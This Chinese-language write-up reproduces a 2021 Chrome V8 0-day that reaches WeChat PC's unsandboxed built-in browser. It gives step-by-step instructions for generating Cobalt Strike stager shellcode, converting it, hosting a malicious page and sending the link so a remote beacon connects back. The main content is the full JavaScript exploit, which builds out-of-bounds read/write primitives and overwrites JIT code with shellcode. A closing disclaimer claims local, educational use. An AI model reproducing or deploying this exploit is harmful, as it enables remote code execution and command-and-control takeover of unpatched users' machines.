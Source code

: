 # WX利用Chrome 0day上线CS

Created by: Feng chen
Created time: Apr 18, 2021 8:50 AM
Last edited time: Apr 18, 2021 2:30 PM
Tags: chrome, 微信

### 一、**简介**

本次漏洞问题出现点为微信内置chrome内核浏览器，内核版本较低，并且没有开启沙盒。由于前几天chrome也爆出来0day了，而微信打开链接时，自带的浏览器会调用 chrome 内核，默认使用 –no-sandbox，所以访问带有恶意js代码时，就会造成RCE。

**影响版本**

微信 PC（Windows）< 3.2.1.141
官方链接下载更新最新 (Windows 微信 PC 3.2.1.143 版本)

```
https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe
```

### 二、**CS 开启stager监听，并生成C语言的 shellcode**

使用cs开启监听，目前亲测使用本地ip开启监听有效，而使用域前置方法生成shellcode无效，具体原因还不知道，需要继续研究研究。

![](./image/Untitled.png)

![](./image/Untitled%201.png)

生成payload.c如下：

![](./image/Untitled%202.png)

### 三、格式转换

由于脚本代码的问题，需要将 shellcode 中的斜杠"`\`"替换为"`,0`"，并且删除第一个逗号，然后放入`wechat.js`中

![](./image/Untitled%203.png)

### 四、远程WEB服务开启

远程起一个web服务，然后将wechat.html和wechat.js放在同一目录下

```python
python -m SimpleHTTPServer 9090
```

![](./image/Untitled%204.png)

![](./image/Untitled%205.png)

### 五、本地测试

给自己发个链接，然后点击，就可以上线了，复现成功。

![](./image/Untitled%206.png)

![](./image/Untitled%207.png)

### 六：测试代码

wechat.html

```html
<script src= "wechat.js"></script>
```

wechat.js 代码

```jsx
ENABLE_LOG = true;
IN_WORKER = true;

// run calc and hang in a loop
var shellcode = [放入shelcode];

function print(data) {
}

var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});

for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}

var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}

function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}

function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();

    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }

    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }

    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }

    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }

    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}

function trigger() {
    var oob = oobAccess();

    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));

    var kCodeInsOffset = 0x1b;

    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));

    oob.setBytes(code_addr, shellcode);

    target_function(0);
}

try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
```

***声明：本次复现均在本地操作，未造成网络攻击。本文仅供学习使用，由于学习造成的一切后果本人不承担任何责任。***